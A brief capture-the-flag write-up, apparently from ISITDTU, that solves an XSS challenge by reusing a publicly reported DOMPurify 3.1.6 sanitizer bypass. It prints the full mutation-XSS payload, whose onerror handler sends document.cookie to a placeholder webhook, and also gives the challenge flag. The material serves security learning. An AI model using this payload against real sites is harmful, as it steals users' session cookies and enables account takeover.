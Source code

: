 ![image](img/xss.png)

For this challenge it said it uses dompurify 3.1.6 so i go to https://github.com/cure53/DOMPurify/releases and see that `masatokinugawa` report it. Then i go to his  and see the payload.
```html
<svg>
<a>
<foreignobject>
<a>
<table>
<a>
</table>
<style><!--</style>
</svg>
<a id="-><img src onerror=location.href=YOUR_WEBHOOK+document.cookie>">
```

Flag: `ISITDTU{d364c13b91d3bd0ecb3ffed49b229fc06b1208e8}`

### niceray

